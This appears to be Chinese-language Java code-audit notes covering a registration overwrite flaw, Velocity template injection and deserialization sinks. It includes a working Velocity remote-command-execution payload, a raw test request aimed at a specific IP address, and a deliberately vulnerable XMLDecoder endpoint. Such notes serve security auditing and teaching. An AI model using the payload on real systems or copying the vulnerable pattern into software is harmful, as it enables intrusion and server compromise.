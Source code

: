 save方法中是注册的功能点，传入了很多参数。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627313048934-8464c68b-2bf0-43bc-852f-641d0ee1132b.png#height=411&id=dbq94&originHeight=822&originWidth=1016&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69533&status=done&style=none&title=&width=508)<br />该程序仅仅对验证码进行判断，就进入了下一个环节。把数据存入数据库，如果user值是相同的，那么很有可能覆盖掉旧的数据。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627313141988-d5616cea-9477-4f7c-aa58-d432bc1ce3c0.png#height=900&id=ExWPy&originHeight=900&originWidth=1578&originalType=binary&ratio=1&rotation=0&showTitle=false&size=101452&status=done&style=none&title=&width=1578)

<a name="z07zx"></a>
## 模板注入

#set如下类型就是模板注入，这个是velocity类型的模板注入
```java
GET /nbfund/velocity?velocity_param=#set($c=12635136+1748856)${c}$c HTTP/1.1
Accept-Encoding: gzip, deflate
Host: 199.118.128.32:8089
User-Agent: Dalvik/2.1.0 (Linux; U; Android 8.0.0; PRA-AL00X Build/HONORPRA-AL00X)
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 0
```
命令执行回显payload，用的时候要url编码一下
```java
/nbfund/velocity?velocity_param=#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667746551655-0dea28f7-7751-40fe-a38b-a0542dd33d70.png#clientId=ue5add110-50ef-4&from=paste&height=174&id=ud517f467&originHeight=217&originWidth=1207&originalType=binary&ratio=1&rotation=0&showTitle=false&size=232394&status=done&style=none&taskId=ueb313fd0-4ae2-4444-b2f6-f44be793454&title=&width=965.6)

<a name="NI4pW"></a>
## 反序列化漏洞
readObject()、InputStream、<br />readObject、readUnshared、load、fromXML、readValue<br />JSON.parseObject

如下图所示路径，cookie可控，可以构造base64加密的序列化传参，会触发readObject反序列化解密<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1643357044326-c2cab6a7-a4ab-4751-ac53-0ae4976de493.png#clientId=uedda24e0-cda9-4&from=paste&height=339&id=ub0010a42&originHeight=515&originWidth=780&originalType=binary&ratio=1&rotation=0&showTitle=false&size=41613&status=done&style=none&taskId=ub3a8e03f-141d-4317-8b2e-103a0487e55&title=&width=513)



<a name="NgOQK"></a>
### XMLDecoder
  xml反序列化漏洞代码<br />快速定位 XMLDecoder
```java
@RestController
public class XmlDecoderRCE {
    @PostMapping("/XmlDecoder")
    public String parseXml(HttpServletRequest request) throws Exception{
        InputStream in = request.getInputStream();
        XMLDecoder d = new XMLDecoder(in);
        Object result = d.readObject(); //Deserialization happen here
        return "xstream";
    }
}
```
